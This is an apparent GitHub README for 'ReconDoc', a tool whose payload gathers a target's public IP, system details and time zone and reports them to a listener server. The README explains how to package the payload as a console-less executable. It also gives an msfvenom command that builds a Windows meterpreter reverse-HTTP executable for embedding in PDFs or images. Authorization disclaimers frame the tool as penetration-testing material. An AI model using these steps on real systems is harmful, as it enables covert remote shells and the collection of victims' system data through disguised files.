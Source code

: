 # ReconDoc Tool

**⚠️ IMPORTANT: This tool is for authorized security testing and educational purposes only. Written permission is required before use in any environment.**

## Overview

ReconDoc is a security testing tool that demonstrates payload-based reconnaissance techniques. When triggered, it collects:
- Public IP address
- System information (OS, platform, architecture)
- Time zone information

## Setup

1. Install dependencies:
```bash
pip install -r requirements.txt
```

2. Start the listener server:
```bash
python listener_server.py
```
The server will run on http://localhost:5000 and save collected data to the `logs` directory.

3. Test the payload:
```bash
python recon_payload.py
```

## Converting to Executable

To convert the payload to an executable:
```bash
pyinstaller --onefile --noconsole recon_payload.py
```

## Embedding in PDF/Image

For authorized testing purposes, you can use tools like `msfvenom` to embed the payload:

```bash
msfvenom -p windows/meterpreter/reverse_http LHOST=<your_ip> LPORT=<your_port> -f exe > payload.exe
```

## Legal Notice

This tool must only be used in environments where you have explicit, written permission to conduct penetration testing or red teaming. Unauthorized use could violate cybercrime laws (e.g., CFAA, GDPR, etc.). 